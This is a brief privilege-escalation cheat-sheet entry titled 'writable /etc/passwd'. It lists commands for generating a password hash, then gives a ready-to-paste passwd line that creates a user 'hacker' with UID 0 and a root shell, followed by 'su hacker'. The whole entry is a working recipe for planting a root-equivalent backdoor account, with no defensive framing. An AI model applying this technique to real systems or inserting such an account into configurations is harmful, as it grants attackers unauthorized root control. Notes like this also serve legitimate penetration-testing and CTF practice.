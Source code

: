 **writable /etc/passwd**

First generate a password with one of the following commands.
``openssl passwd -1 -salt hacker hacker
OR
``mkpasswd -m SHA-512 hacker
OR
``python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'

Then add the user `hacker` and add the generated password.
``hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
``su hacker
``password: hacker


